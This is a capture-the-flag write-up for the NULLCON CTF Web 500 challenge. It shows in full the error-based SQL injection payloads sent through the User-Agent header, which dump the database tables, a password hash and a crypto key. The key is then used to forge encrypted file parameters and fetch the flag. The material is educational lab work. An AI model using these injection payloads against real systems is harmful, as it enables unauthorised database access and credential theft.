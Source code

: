 ```yaml
---
subtitle: "NULLCON CTF Web 500 "
---
```


![](media/5fc5b1610166f47325d98d8208843a79.png)

Then I started trying to use SQLi in User-Agent header. And managed to get a
syntax error

POST /web500/ HTTP/1.1

Host: 54.152.19.210

User-Agent: ' or 1=2

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://54.152.19.210/web500/

Cookie: PHPSESSID=ge2o4rh6s8afgc0ie894j3r3b5

Connection: close

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 35

username=test&password=teste&key=6B

![](media/b80a7614701dc10a71ba06c4a1a7a3a0.png)

At this point it looks like its error based SQLi, let’s try to get database
version

Reference:
<http://justhack111.blogspot.in/2014/07/sql-injection-is-most-important-part-of.html>

User-Agent: ' or 1 group by concat\_ws(0x3a,version(),floor(rand(0)\*2)) having
min(1) \#

![](media/97aefcd217a09fbdf5681a66e9958843.png)

Let’s dump database. Getting tables first

User-Agent: ' or 1 group by concat\_ws(0x3a,(select group\_concat(table\_name
separator ',') from information\_schema.tables where
table\_schema=database()),floor(rand(0)\*2)) having min(1) \#

![](media/a16f151807bb5f85d3b0b1d5fc1ae922.png)

Getting columns from accounts table

User-Agent: ' or 1 group by concat\_ws(0x3a,(select group\_concat(column\_name
separator ',') from information\_schema.columns where
table\_name='accounts'),floor(rand(0)\*2)) having min(1) \#

  
**Warning: mysqli\_query(): (23000/1062): Duplicate entry
'uid,uname,pwd,age,zipcode:1' for key '\<group\_key\>' in
/var/www/html/web500/index.php on line 57**

Getting rows

User-Agent: ' or 1 group by concat\_ws(0x3a,(select
concat\_ws(0x2c,uid,uname,pwd,age,zipcode) from accounts),floor(rand(0)\*2))
having min(1) \#

**Warning: mysqli\_query(): (23000/1062): Duplicate entry
'10000,ori,6606a19f6345f8d6e998b69778cbf7ed,28,89918:1' for key**

**'\<group\_key\>' in /var/www/html/web500/index.php on line 57**

There is only one row inside of accounts table

uname: ori

pwd: frettchen (checking hash 6606a19f6345f8d6e998b69778cbf7ed in online MD5
databases)

![](media/e545f166e006820df79015396f605f1b.png)

Look at the URL now

<http://54.152.19.210/web500/ba3988db0a3167093b1f74e8ae4a8e83.php?file=uWN9aYRF42LJbElOcrtjrFL6omjCL4AnkcmSuszI7aA>**=**

So we're sending some file parameter that is encoded in Base64. Checking source
of this page shows that there is a commented PHP function

![http://i.imgur.com/exlSVtx.png](media/8664a16cc9c3d3ce3aeb659ca6c8b00e.png)

Its missing \$key value, lets back to SQLi and dump cryptokey table

User-Agent: ' or 1 group by concat\_ws(0x3a,(select group\_concat(column\_name
separator ',') from information\_schema.columns where
table\_name='cryptokey'),floor(rand(0)\*2)) having min(1) \#

**Warning: mysqli\_query(): (23000/1062): Duplicate entry 'id,keyval,keyfor:1'
for key '\<group\_key\>' in /var/www/html/web500/index.php on line 57**

User-Agent: ' or 1 group by concat\_ws(0x3a,(select
concat\_ws(0x3a,id,keyval,keyfor) from cryptokey),floor(rand(0)\*2)) having
min(1) \#

**Warning: mysqli\_query(): (23000/1062): Duplicate entry
'1,TheTormentofTantalus,File Access:1' for key '\<group\_key\>' in
/var/www/html/web500/index.php on line 57**

Adding missing \$key="TheTormentofTantalus" and using
decrypt("uWN9aYRF42LJbElOcrtjrFL6omjCL4AnkcmSuszI7aA=") returns flag-hint

So at this point we want to encrypt "flagflagflagflag.txt", but first we need to
write encrypt function based on decrypt

![http://i.imgur.com/cHzCiwE.png](media/32f12766ce43762637392e4b70dd06e8.png)

Since decrypt function taking initialization vector from given input, we don’t
care about it (random in our case). It's important to urlencode result of
base64encode because we'll use it later to send as GET parameter (+ signs from
base64 would be changed into spaces).

Its time to check if its working properly

encrypt('flag-hint') results in
"rj6Z77cpkFPmIoMbapgGUD%2F3T8lBr7ZzOaQrGbl%2B73U%3D" (every result will be
different because of random IV)

/web500/ba3988db0a3167093b1f74e8ae4a8e83.php?file=rj6Z77cpkFPmIoMbapgGUD%2F3T8lBr7ZzOaQrGbl%2B73U%3D
shows us same page, so encrypt is working properly

We've tried to get a file from encrypt('flagflagflagflag.txt'), but result was
"Not allowed to read this file!". After that we've started modifying input and
found valid one:

encrypt('flagflagflagflag') results in
"7WuFCJ5I5vPzscTaPqyq4RBhaBOtID5Oou7xa51X5vo%3D" that leads us to get a flag

![http://i.imgur.com/bQSFxhc.png](media/626daf44b33749d337d7243f98bafa5c.png)
